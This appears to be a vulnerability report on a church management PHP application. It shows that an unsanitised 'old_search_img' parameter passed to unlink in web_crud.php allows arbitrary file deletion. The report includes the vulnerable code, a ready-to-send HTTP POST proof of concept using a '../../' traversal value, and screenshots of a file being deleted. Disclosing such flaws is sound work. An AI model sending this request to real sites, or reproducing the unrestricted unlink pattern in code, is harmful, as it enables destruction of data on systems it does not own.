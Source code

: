 ### Vulnerability file address

In line 458 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_search_img']);`,` $_POST['old_search_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['searchphoto']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . generateUniqueFileName($_FILES["searchphoto"]["name"]);

            if (move_uploaded_file($_FILES["searchphoto"]["tmp_name"], $filepath)) {
                $img9 = basename($filepath);
                @unlink("../../assets/images/" . $_POST['old_search_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 379

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update6"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_search_img"

../../20.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="searchphoto";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `20.txt` file in the `church/` directory

![image-20250505163544964](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051635003.png)

Then we execute the above poc to attack

![image-20250505163553268](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051635302.png)

Files are deleted after the attack is successful

![image-20250505163606183](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051636215.png)